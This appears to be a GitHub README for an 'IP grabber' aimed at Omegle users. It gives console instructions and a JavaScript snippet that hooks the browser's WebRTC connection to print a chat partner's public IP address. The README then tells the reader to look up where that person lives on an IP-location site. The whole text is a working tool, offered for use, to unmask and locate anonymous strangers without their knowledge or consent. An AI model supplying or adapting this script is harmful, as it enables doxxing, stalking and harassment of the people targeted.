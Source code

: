 # iP Grabber For Omegle!

<p><center>On the bottom of the README.md file is there a script that you can use for omegle!</center></p>

# Install process

<ol>
  <li>
    <p>First go to https://omegle.com</p>
    <p>Then inspect the site (ctrl + shift + i)</p>
    <p>Then press "Console"</p>
    <p>Then paste this script:</p>
    <p>window.oRTCPeerConnection  = window.oRTCPeerConnection || window.RTCPeerConnection

window.RTCPeerConnection = function(...args) {
 const pc = new window.oRTCPeerConnection(...args)

pc.oaddIceCandidate = pc.addIceCandidate

pc.addIceCandidate = function(iceCandidate, ...rest) {
 const fields = iceCandidate.candidate.split(' ')

if (fields[7] === 'srflx') {
console.log('IP Address:', fields[4])
}
return pc.oaddIceCandidate(iceCandidate, ...rest)

}

return pc
}
</p>
    <p>If you did that press "Enter"</p>
    <p>Then <b>DON'T</b> close the inspect element. Just go into a chat and you see the IP</p>
    <p>If you want to know where the person live go to this site: https://dnschecker.org/ip-location.php?ip and paste his ip there!</p>
  </li>
# Special Thanks:
    <a href="https://github.com/getgaming">GitHub</a>
    <a href="https://youtube.com/getgamingyt">Youtube</a>
    <a href="https://getgaming.ml">Website</a>
